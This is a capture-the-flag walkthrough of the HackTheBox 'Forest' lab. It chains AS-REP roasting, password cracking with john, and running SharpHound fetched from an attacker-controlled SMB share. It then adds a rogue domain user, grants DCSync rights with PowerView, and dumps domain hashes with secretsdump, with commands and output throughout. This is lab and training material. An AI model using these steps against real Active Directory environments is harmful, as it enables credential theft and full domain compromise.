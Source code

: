 ### FOREST

#### nmap scan

```nmap
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-07-29 10:35:19Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
```

seems to be a domain controller

and we got a domain name `htb.local` from the nmap scan

lets try `smbclient -L \\\\10.10.10.161\\` => so we have nothing here, cant do rpcclient as well

sometimes, this works :P,

AS-REP roasting

```
GetNPUsers.py -dc-ip 10.10.10.161 htb.local/
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2021-07-29 10:39:57.352002  2021-07-29 05:45:57.315643  0x410200
```

so if we append `-request` to the above command at the end, we will get a krb asrep token, which we can crack using john

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:10 DONE (2021-07-29 10:36) 0.09442g/s 385813p/s 385813c/s 385813C/s s4553592..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

now that we got some creds, we can run some commmands, lets start ny putting these into files, users and pass

so, first thing we should do it run a lookupsids.py (from impacket) - this does a user RID bruteforce, basically loops through the User IDs in windows and finds out the user names from that

```
sebastien
lucinda
svc-alfresco
Service
Privileged
andy
mark
santi
```

so there are some other usernames as well in there, but those seem obselete, so I've a copy of them in /tmp/t, just in case

lets check if we can roast any of them, before that lets check if we can do evil-winrm - yep, so we got user so fast :P

kerberoasting doesn't seem to work, giving weird errors, lets move on...

anyways, since we are on the box, I'm going to run sharphound to give us some more data,

lets copy the SharpHound.exe from our local machine to the target machine

```
on local machine,
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

on windows target,
net use x: \\10.10.14.77\kalishare /user:guest guest
cd x:
.\SharpHound.exe -c all
```

now that we have the zip file, lets have a look at bloodhound

we find that, our guy is a part of the `Account Operators` group, which means we can add users and stuff

so, looking at BloodHound, we find that the `EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL` has the permission to `Write-DACL` on the domain, which means we add the ACL on the domain that a specific user will be able to do a DCSync on the domain

so, from the permission that we have above to add users, lets create and add a user to the `EXCHANGE WINDOWS PERMISSIONS` group and additionally `remote management users` local group ,we are also adding him to the domain with the /domain so that he'll be able to to secretsdump once he is in the correct groups,

we are adding him in the remote users group so that we'll be able to evil-winrm as that user once we create him

```
net user foo1 P@$$W0RD /add /domain
net localgroup "remote management users" foo1 /add
net group "EXCHANGE WINDOWS PERMISSIONS" foo1 /add
```

even I dont know, how we can check first that if we'll be able to add users and add them to specific groups, so we have to just try the attacks based on how the domain looks like

now, we can winrm as the foo1 user, and once we do that, since we are the member of `EXCHANGE WINDOWS PERMISSIONS` group, we'll be able to modify the ACL on the domain to allow us to do a DCSync (atleast that it what I understand)

we can do this in two ways which I've explored, and both of them require PowerView.ps1, so lets get powerview on our machine, and since we are in the evil-winrm session, we can just run `upload PowerView.ps1`, and it will find a file in our current working directory (where we winrm'ed from), and uploads it to the windows machine

so, once we have PowerView.ps1 on remote, we can just source it diretly as we are already in winrm powershell session

`. .\PowerView.ps1`

now that we've sourced PowerView.ps1,

`add-objectacl -principalidentity foo1 -rights dcsync`

so as we are already logged in as foo1 now, we dont need the credential variable, but if we're not logged in separately as this user, we have to specify the credential with

```
$pass = convertto-securestring 'P@$$word' -asplain -force
$cred = new-object system.management.automation.pscredential('htb.local\foo1', $pass)
add-objectacl -principalidentity foo1 -credential $cred -rights dcsync
```

other way is (which i've bashed around a lot :))

`Add-DomainObjectAcl -credential $cred -principalidentity foo1 -TargetIdentity "DC=htb,DC=local" -Rights DCSync`

so, one of these methods will give you (the user foo1) the right to do a DCSync

lets do a secretsdump.py since we have the rights now

```
secretsdump.py -dc-ip 10.10.10.161 htb.local/foo1@FOREST                                                                                                                                                                                 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation                                                                                                                                                                                     
                                                                                                                                                                                                                                             
Password:                                                                                                                                                                                                                                    
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                                                                                                                           
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                                                                                                
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                                                                                                         
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:aad3b435b51404eeaad3b435b51404ee:::                                                                                                                                             
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                                                                               
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::                                                                                                                                                              
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
```

there we go, now we should have all the hashes (replaced the admin hash with null one)

now, we can do another evil-winrm to get into the box as admin